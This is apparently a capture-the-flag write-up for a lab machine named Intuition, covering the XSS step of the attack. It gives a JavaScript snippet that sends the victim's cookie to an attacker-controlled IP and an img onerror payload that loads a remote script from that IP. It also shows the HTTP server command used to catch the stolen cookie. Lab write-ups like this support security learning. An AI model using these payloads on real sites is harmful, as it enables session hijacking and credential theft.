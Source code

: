 ![](/assets/images/Intuition/Pasted%20image%2020240906191955.png)

# XSS
Now that I have confirmed an HTML injection vulnerability, I can try to do various things in the session of the one that reviews my reports using javascript. If the cookie doesn't have HttpOnly enabled, I can access it with javascript and in consequence exfiltrate it in my server. This is the case:

![](/assets/images/Intuition/Pasted%20image%2020240906192230.png)

So I will create a javascript file that takes the cookie and sends it to my server that will interpret in the victim's dashboard. This is the javascript file:

```javascript
var req = new XMLHttpRequest();
req.open("GET", "http://10.10.15.95/exfil?cookie=" + encodeURIComponent(btoa(document.cookie)), false);
req.send();
```

Now I will start the http server and send the payload `<img src=x onerror="eval('d=document; _=d.createElement(\'script\');_.src=\'http://10.10.15.95/script.js\';d.body.appendChild(_)')">` that will create a script element in the victim's dashboard and load my remote script:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

